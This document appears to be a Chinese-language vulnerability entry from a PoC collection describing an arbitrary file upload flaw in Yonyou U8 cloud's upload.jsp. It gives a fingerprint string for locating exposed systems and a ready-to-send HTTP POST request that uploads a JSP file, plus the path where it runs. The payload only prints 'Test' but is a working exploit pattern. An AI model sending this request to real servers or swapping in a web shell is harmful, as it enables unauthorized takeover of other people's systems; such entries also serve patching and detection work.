

# 用友 U8 cloud upload.jsp 任意文件上传漏洞

## 漏洞描述

用友 U8 cloud upload.jsp 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 U8 cloud

## 网络测绘

```
"开启U8 cloud云端之旅"
```

## 漏洞复现

登陆页面


poc

```
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```



```
/linux/Test.jsp
```

